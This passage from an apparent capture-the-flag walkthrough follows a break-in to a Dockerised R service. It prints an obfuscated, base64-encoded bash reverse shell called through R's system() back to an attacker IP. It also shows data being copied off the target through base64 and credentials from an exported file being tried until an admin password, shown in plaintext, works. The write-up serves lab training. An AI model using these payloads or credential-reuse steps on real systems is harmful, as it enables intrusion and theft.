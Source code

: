 We get the output of the `id` command as a root user but we are not actually the root user on the target machine, if we check the `hostname` this will return as a random value which indicates that we are inside a docker container

<img src="https://i.imgur.com/5a9bUnL.png"/>

To get a reverse shel I used bash reverse encoded in base64 

```bash
system("bash -c 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40Ni8yMjIyIDA+JjEK | base64 -d |bash'",intern = TRUE)
```

<img src="https://i.imgur.com/ZQWwVaU.png"/>

After getting a shell we can stabilize it so we can get the functionality of using arrow keys and tab auto complete

<img src="https://i.imgur.com/AisgfBl.png"/>

In root's folder we can see a `omv` file named `bolt-administration`

<img src="https://i.imgur.com/D5xbJUb.png"/>

Now the issue here was there was no netcat,net-tools,curl or wget that I could transfere this omv file on to my machine neither there was any tool to unzip the omv file so I base64 encoded the contents of the file

<img src="https://i.imgur.com/fJ3m6VV.png"/>

Copied it on my host machine's terminal and saved it then piped it to base64 decode and got the file

<img src="https://i.imgur.com/dAVJAtv.png"/>

<img src="https://i.imgur.com/gvTfaOF.png"/>

Reading the `xdata.json` we can see usernames and passwords for bolt

<img src="https://i.imgur.com/OZ9A4cV.png"/>

<img src="https://i.imgur.com/wQzote6.png"/>

I tried the credentials for `janit` , it failed

<img src="https://i.imgur.com/25gs4Gx.png"/>

Tried `sual`'s credentials which gave an error on authenticating

<img src="https://i.imgur.com/oWhybfJ.png"/>

Same with `matt`, so I decided to test `admin` as the username with the passwords  and `jeO09ufhWD<s` worked for the admin user

<img src="https://i.imgur.com/Ig3Zp3v.png"/>
